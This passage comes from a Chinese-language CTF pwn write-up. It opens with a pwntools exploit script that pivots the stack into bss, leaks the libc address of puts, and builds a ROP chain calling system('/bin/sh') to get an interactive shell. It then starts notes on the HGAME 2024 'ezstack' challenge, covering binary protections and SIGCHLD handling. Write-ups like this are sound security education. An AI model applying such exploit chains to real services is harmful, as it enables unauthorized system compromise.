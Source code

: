 ```python
leave_ret=0x40121B

# gdb.attach(link,'b *0x40121B')

payload=b'a'*0x50+p64(bss_base)+p64(call_read)
link.recvuntil(b"him!")
link.send(payload)

payload=p64(rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(rbp)+p64(bss_base+0x300+0x50)+p64(call_read)+b'a'*0x20
payload+=p64(bss_base-0x58)+p64(leave_ret)
link.send(payload)

link.recvline()
puts_addr=u64(link.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))

libc_base=puts_addr-0x080e50
binsh=libc_base+0x1d8678
system=libc_base+0x050d70

payload=(b'a'*8+p64(rdi)+p64(binsh)+p64(rdi+1)+p64(system)).ljust(0x50,b'\x00')
payload+=p64(bss_base+0x300)+p64(leave_ret)
link.send(payload)

link.interactive()
```

### HGAME CTF 2024 Week1 ezstack
![](/images/d14128c19d6d3ceadf70633bb1af8311.jpeg)

没有 canary 和 PIE，有 NX

main 函数跟 tcp 相关，之前没怎么接触过：

tcp 基本流程图：

![](/images/cad38759dd7ad7eb1f16fe5df1d3eff6.png)

```python
signal(17, (__sighandler_t)1);
```

`signal()` 函数用于设置信号的处理方式。信号是操作系统在进程执行过程中发出的通知，通常表示某些事件的发生

通过 `signal()`函数，程序可以指定某个信号发生时应该执行的操作，通常是一个信号处理函数

参数：

+ signum：信号的编号，表示需要捕获或处理的信号
+ handler：当信号发生时，程序需要执行的处理函数。它是一个指向函数的指针，该函数的参数是信号的编号（通常是 int 类型）

根据 POSIX 标准，17 对应的信号是 `SIGCHLD`

